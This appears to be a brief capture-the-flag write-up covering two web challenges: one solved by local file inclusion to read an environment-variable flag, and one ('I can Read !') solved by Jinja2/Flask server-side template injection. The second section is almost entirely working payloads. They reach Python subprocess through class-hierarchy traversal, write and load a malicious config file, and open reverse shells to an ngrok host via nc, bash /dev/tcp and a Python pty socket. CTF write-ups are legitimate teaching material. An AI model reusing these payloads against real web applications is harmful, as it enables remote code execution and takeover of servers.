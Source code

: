 ## Not Feeling Well ec
LFI injection to get the environment variables. The flag is set as an env variable and the user has a vulnerable code to set the profile image.
![picture 1](../../images/4264a1c9ed557a74e7f7179cd6ea87f67a5bec6f5682eca7fe53e54da4089d2fc.png)  
![picture 2](../../images/aa2e886d863f69b1b8e4b28e3cedde685c8b20efebf2b76f43385454ee77b2a9.png)  


## I can Read !
```py
{{''.__class__.__mro__[1].__subclasses__()[399]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 6.tcp.eu.ngrok. 17220 >/tmp/f',shell=True,stdout=-1).communicate()}}
```


```Py

# {{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('import os,pty,socket;s=socket.socket();s.connect(("6.tcp.eu.ngrok.",17220));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' )}}

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/6.tcp.eu.ngrok/17220 0>&1"',shell=True) }}
{{ config['RUNCMD']("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"6.tcp.eu.ngrok.\",17220));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")'",shell=True) }}



```

{{ config.from_pyfile('/var/www/bad_config.py')}}
